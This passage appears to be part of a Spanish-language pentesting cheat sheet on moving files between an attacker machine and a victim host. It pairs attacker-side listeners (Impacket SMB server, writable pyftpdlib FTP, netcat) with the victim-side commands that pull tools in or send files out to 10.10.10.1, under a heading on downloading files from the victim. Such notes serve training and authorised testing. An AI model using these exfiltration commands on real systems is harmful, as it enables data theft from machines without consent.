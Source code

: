 - **Atacante:**

```bash
impacket-smbserver -smb2support test .
```

- **Víctima:**

```cmd
copy \\10.10.10.1\test\FiletoTransfer FiletoTransfer
```

---

#### 🔽 Bajar archivos de la víctima

##### 1. FTP con escritura

- **Atacante:**

```bash
python -m pyftpdlib -w
```

- **Víctima:**

```cmd
ftp
open 10.10.10.1 2121
anonymous

put FiletoDownload
bye
```

##### 2. Netcat

- **Atacante:**

```bash
nc -lvp 4444 > FiletoDownload
```

- **Víctima:**

```cmd
nc.exe 10.10.10.1 4444 -w 3 < FiletoDownload
```

##### 3. SMB (Impacket)

- **Atacante:**

```bash
impacket-smbserver -smb2support test .
```

- **Víctima:**

```cmd
copy FiletoDownload \\10.10.10.1\test\FiletoDownload
```
